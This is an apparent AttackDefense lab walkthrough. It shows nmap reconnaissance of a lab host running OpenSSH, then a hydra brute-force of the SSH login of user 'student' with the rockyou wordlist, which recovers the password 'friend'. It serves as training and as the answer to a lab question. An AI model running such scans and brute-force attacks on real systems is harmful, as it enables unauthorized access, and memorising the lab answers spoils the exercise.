 ```
28273: eth1@if28274: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:c0:04:df:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 192.4.223.2/24 brd 192.4.223.255 scope global eth1
       valid_lft forever preferred_lft forever
```

```
root@attackdefense:~# ping 192.4.223.3 -c 4
PING 192.4.223.3 (192.4.223.3) 56(84) bytes of data.
64 bytes from 192.4.223.3: icmp_seq=1 ttl=64 time=0.110 ms
64 bytes from 192.4.223.3: icmp_seq=2 ttl=64 time=0.040 ms
64 bytes from 192.4.223.3: icmp_seq=3 ttl=64 time=0.041 ms
64 bytes from 192.4.223.3: icmp_seq=4 ttl=64 time=0.033 ms

--- 192.4.223.3 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 73ms
rtt min/avg/max/mdev = 0.033/0.056/0.110/0.031 ms
```

```
root@attackdefense:~# nmap 192.4.223.3
Starting Nmap 7.70 ( https://nmap.org ) at 2022-08-22 14:11 UTC
Nmap scan report for target-1 (192.4.223.3)
Host is up (0.0000090s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
MAC Address: 02:42:C0:04:DF:03 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.23 seconds
```

```
root@attackdefense:~# nmap 192.4.223.3 -p 22 -sV
Starting Nmap 7.70 ( https://nmap.org ) at 2022-08-22 14:12 UTC
Nmap scan report for target-1 (192.4.223.3)
Host is up (0.000032s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
MAC Address: 02:42:C0:04:DF:03 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.48 seconds
```

**Questions**

Find the password of user “student” using hydra.

`login: student   password: friend`

```
root@attackdefense:~# hydra -l student -P /usr/share/wordlists/rockyou.txt 192.4.223.3 ssh
Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-08-22 14:15:34
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://192.4.223.3:22/
[STATUS] 180.00 tries/min, 180 tries in 00:01h, 14344223 to do in 1328:11h, 16 active
[22][ssh] host: 192.4.223.3   login: student   password: friend
```